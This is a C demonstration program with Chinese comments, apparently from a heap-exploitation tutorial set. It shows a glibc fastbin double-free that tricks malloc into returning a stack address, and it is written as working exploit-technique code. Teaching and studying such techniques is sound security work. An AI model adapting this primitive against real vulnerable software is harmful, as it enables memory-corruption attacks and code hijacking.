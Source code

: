 源代码

```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
	fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n"
	       "returning a pointer to a controlled location (in this case, the stack).\n");
	//这个程序更具体地展示了上一个程序所介绍的技巧,通过欺骗malloc来返回一个我们可控的区域的指针(在这个例子中,我们可以返回一个栈指针)
	unsigned long long stack_var;
	fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);
	//我们想要malloc返回的地址是这个
	fprintf(stderr, "Allocating 3 buffers.\n");
    //首先分配三块内存:
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);
	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);
	fprintf(stderr, "Freeing the first one...\n");
    //free掉第一块内存…
	free(a);
	fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
    //和上一个程序一样,我们再free第一块内存是不行的,因为这个时候这块内存刚好在对应free-list的顶部,再次free这块内存的时候就会被检查到
	// free(a);
	fprintf(stderr, "So, instead, we'll free %p.\n", b);
    //所以我们free第二块
	free(b);
	fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
    //现在我们可以free第一块了,程序不会崩溃，因为它已经不在链表顶部了，
	free(a);
	fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
		"We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
    //当前的free-list是这样的 [a,b,a]，我们将通过在第一块内存a上构造数据来进行攻击
	unsigned long long *d = malloc(8);
	fprintf(stderr, "1st malloc(8): %p\n", d);
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
	fprintf(stderr, "Now the free list has [ %p ].\n", a);
	//现在的free-list上面就只剩下了a
    fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
    //
		"so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
        //然后我们现在写一个假的chunk-size(在这里我们写入0x20)到栈上.(相当于在栈上伪造一块已经free的内存块)
		"so that malloc will think there is a free chunk there and agree to\n"
        //之后malloc就会认为存在这么一个free-chunk
		"return a pointer to it.\n", a);
        //并在之后的内存申请中返回这个地址
	stack_var = 0x20;
	fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
    //现在,我们再修改a的前8个字节为刚才写下chunk-size的那个栈单元的前一个栈单元的地址
	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
	fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
    //将栈地址放到free-list上
	fprintf(stderr, "4th malloc(8): %p\n", malloc(8));//成功返回栈地址
}
```
